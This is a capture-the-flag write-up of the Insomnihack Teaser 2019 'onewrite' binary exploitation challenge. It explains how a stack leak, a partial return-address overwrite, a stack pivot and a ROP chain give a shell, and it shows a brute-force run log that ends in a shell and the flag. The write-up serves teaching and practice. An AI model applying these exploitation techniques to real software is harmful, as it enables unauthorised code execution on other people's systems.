

# onewrite - insomnihackTeaser 2019

`checksec` output:

```bash
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

The binary is statically linked and is pretty simple:

```bash 
All you need to pwn nowadays is a leak and a qword write they say...
What do you want to leak ?
1. stack
2. pie
 > 1
0x7ffc6d2985a0
address : 0
data : 0
 ```

So basically we can leak an address in the stack or the location of the binary and write 8 bytes in the memory. The PoC is the following:

1. Leak the stack address
2. Partial overwrite of the main ret address (it points to __libc_start_main). With an overwrite of the last 2 bytes we can jump in the main function again.
3. Leak the binary address
4. Jump again in the main 
5. Find a way to get an infinite loop and write a ropchain in the memory
6. exit the infinite loop and jump in the ropchain

The "hard" part of the challenge was to perform a stack pivoting to get an infinite loop, because actually we are able to write just 8 byte every time and we use this write to return to the main function. 
The solution was to look for an existing gadget in the memory, so that i can write 8 bytes somewhere and jump again in the main function "for free". That gadget was at `leak_stack + 0x48`.
Then i just had to put a gadget that `pop rsp; ret` at `leak_stack + 0x50` and to put the address `leak_stack + 0x48` at `leak_stack + 0x58`to get an infinite loop. 
Adjust the ropchain and write it starting from `leak_stack + 0x60`, then and exit from the infinite loop with a simple `pop whatever; ret` gadget.

The stack looks like this 


The partial overwrite of the (first) ret address needs a bit of bruteforce (just a nibble). So with probability 1/0xf it should work.

Pwn it baby.
```bash
$ while true; do python exploit.py baby.teaser.insomnihack.ch 1337; done
....
[+] Writing data=��� at address=140735347322104
[+] exit the infinite loop and jump in the sh ropchain
[+] Writing data=��� at address=140735347321488
[+] INTERACTIVE Baby
id
uid=1010(onewrite) gid=1011(onewrite) groups=1011(onewrite)
..
cat flag
INS{one leak, one write, many possibilities...}
```

The full exploit is available [here](exploit.py)! 
